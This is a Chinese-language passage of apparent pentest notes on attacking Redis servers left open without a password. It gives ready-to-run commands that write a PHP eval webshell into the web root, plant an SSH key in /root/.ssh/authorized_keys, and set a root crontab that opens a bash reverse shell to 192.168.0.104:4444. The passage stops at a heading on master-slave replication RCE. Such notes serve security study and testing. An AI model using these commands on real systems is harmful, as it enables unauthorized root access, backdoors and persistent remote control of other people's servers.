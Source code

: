 Redis 与 memcached 一样，为了保证效率，数据都是缓存在内存中。但 Redis 会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了 master-slave (主从)同步。

### [](#redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E)redis 未授权访问漏洞

默认的配置是使用 6379 端口，没有密码。这时候会导致未授权访问读写 Redis 数据。

#### [](#%E5%9C%A8-web-%E7%9B%AE%E5%BD%95%E4%B8%8B%E5%86%99%E5%85%A5-webshell)在 web 目录下写入 Webshell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>config set dir /var/www/html<br>config set dbfilename webshell.php<br>set webshell "<?php phpinfo();?>"<br>save<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512150346.png-water_print](assets/1699409321-a988037dc226161d79823b6374bfbfd6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512150346.png-water_print")

当数据库过大时，redis 写 shell 的小技巧：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```php<br><?php <br>set_time_limit(0);<br>$fp=fopen('webshell.php','w');<br>fwrite($fp,'<?php @eval($_POST[1]);?>');<br>exit();<br>?><br>``` |

#### [](#%E5%86%99-ssh-%E5%85%AC%E9%92%A5)写 ssh 公钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>ssh-keygen -t rsa<br>cd .ssh<br>(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt<br>cat 1.txt \| redis-cli -h ip -x set payload<br>config set dir /root/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

#### [](#%E5%86%99-crontab)写 crontab

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>redis-cli -h 192.168.0.104<br>set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.104/4444 0>&1\n\n"<br>config set dir /var/spool/cron<br>config set dbfilename root<br>save<br>``` |

### [](#%E5%88%A9%E7%94%A8-redis-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6-rce)利用 redis 主从复制 rce
